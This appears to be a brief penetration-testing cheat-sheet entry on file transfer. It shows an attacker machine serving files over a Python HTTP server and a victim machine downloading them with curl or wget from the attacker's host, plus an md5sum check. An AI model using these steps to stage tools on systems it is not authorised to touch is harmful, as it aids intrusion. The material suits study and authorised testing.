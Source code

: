 # 2 file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://$me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://$me:8888/filename -O filename
```

- Check integrity after file transfer using

```shell
md5sum file
```


